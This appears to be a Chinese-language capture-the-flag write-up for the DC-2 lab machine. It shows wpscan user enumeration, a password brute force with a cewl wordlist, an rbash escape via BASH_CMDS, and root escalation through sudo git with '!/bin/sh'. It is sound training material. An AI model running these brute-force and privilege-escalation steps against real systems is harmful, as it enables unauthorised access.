


# DC-2 靶机解答指南

在确定了靶机的ip后就可以进行nmap扫描

```text
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-generator: WordPress 4.7.10
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: DC-2 &#8211; Just another WordPress site
|_https-redirect: ERROR: Script execution failed (use -d to debug)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey:
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
```

可以看到80端口为wordpress，7744为ssh

先用`wpscan`对wordpress进行扫描

```text
$ wpscan --url http://dc-2 -e
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.2
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://dc-2/ [192.168.88.132]
[+] Started: Tue Jul 21 22:32:07 2020

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://dc-2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] http://dc-2/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://dc-2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2020-03-31T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 2.3
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'

[+] Enumerating Vulnerable Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:00 <========================================> (329 / 329) 100.00% Time: 00:00:00[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] No themes Found.

[+] Enumerating Timthumbs (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:01 <======================================> (2575 / 2575) 100.00% Time: 00:00:01
[i] No Timthumbs Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <===========================================> (21 / 21) 100.00% Time: 00:00:00
[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:00 <===============================================> (36 / 36) 100.00% Time: 00:00:00
[i] No DB Exports Found.

[+] Enumerating Medias (via Passive and Aggressive Methods) (Permalink setting must be set to "Plain" for those to be detected)
 Brute Forcing Attachment IDs - Time: 00:00:03 <====================================> (100 / 100) 100.00% Time: 00:00:03
[i] No Medias Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==========================================> (10 / 10) 100.00% Time: 00:00:00
[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up
```

可以从中提取到此站点无插件，意味着无法实现web端的进一步操作。同时检索出三个用户

再登入站点后，可以找到flag1

```text
Flag 1:

Your usual wordlists probably won't work, so instead, maybe you just need to be cewl.

More passwords is always better, but sometimes you just can't win them all.

Log in as one to see the next flag.

If you can't find it, log in as another.
```

看到`cewl`这个提示，查询得知cewl是一款用网页元素生成密码的工具，使用得到可能的密码



此时即可利用wpscan的爆破工具对用户名和密码进行爆破

```bash
wpscan --url http://dc-2 -e u -U usr.txt -P passwd.txt
```

```text
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

可以看到检索出了两个用户，利用其登入站点后，得到flag2

```text
Flag 2:

If you can't exploit WordPress and take a shortcut, there is another way.

Hope you found another entry point.
```

给出提示，说你无法攻击WordPress，请使用其他方法！
本身WordPress是没有什么太大安全问题的，安全问题出在插件上，但是空空入也，无法下手
根据刚才nmap扫描的结果有ssh服务，尝试ssh去链接，因为得到了两个用户账号，看能否进去

尝试了两个账号后，只有tom的账号能够成功登录



得到flag3和flag4

```text
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```

```text
Good to see that you've made it this far - but you're not home yet.

You still need to get the final flag (the only flag that really counts!!!).

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```

但是现在是运行在一个受限的shell上，查看`$PATH`

```text
/home/tom/usr/bin
```

很明显地就是指向了错误的位置，只需修改$PATH的值到正确即可

但是直接`export $PATH`的话会提示为只读，我们可以通过特殊变量来进行绕过

```bash
BASH_CMDS[a]=/bin/sh
a
export PATH=$PATH:/bin:/usr/bin
```

这时即可成功进入到正常的终端，登入jerry的账号，`sudo -l`
(此时发现SUID提权需要root权限)

```text
(root) NOPASSWD: /usr/bin/git
```

利用git即可实现提权

```bash
sudo -u root git branch --help config
!/bin/sh
```

成功获取到root权限，得到最终的flag

```text
 __    __     _ _       _                    _
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
